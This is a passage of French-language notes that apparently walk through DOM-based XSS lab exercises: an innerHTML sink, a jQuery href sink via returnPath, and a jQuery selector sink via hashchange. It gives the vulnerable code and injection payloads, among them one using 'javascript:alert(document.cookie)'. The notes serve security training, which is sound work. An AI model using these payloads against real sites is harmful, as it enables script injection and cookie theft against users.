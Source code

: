 
Envoyer le payload suivant dans la barre de recherche : 

    "><svg onload=alert(1)>

### DOM XSS in innerHTML sink using source location.search

Entrer n’importe quoi dans la barre de recherche.

Remarquer le morceau suivant dans le code source :

    <h1><span>0 search results for '</span><span id="searchMessage"></span><span>'</span></h1>
                            <script>
                                function doSearchQuery(query) {
                                    document.getElementById('searchMessage').innerHTML = query;
                                }
                                var query = (new URLSearchParams(window.location.search)).get('search');
                                if(query) {
                                    doSearchQuery(query);
                                }
                            </script>

Entrer le payload suivant dans la barre de recherche : 

    <img src=1 onerror=alert(1)>
    
### DOM XSS in jQuery anchor href attribute sink using location.search source

Cliquer sur le lien “Submit feedback” et remarquer que l’URL se termine par “/feedback?returnPath=/”

Changer le paramètre en “?returnPath=/AAAA” par exemple.

Remarquer le morceau de code suivant : 

    $(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath')); 
    });

Remarquer que notre valeur est insérée comme suit : 

    <a id="backLink" href="/AAAA">Back</a>

Répéter l’opération mais remplacer le paramètre par : 

    “?returnPath=javascript:alert(document.cookie)”

### DOM XSS in jQuery selector sink using a hashchange event

Remarquer le morceau suivant dans le code source : 

    $(window).on('hashchange', function(){
                                var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
                                if (post) post.get(0).scrollIntoView();
                            }); 
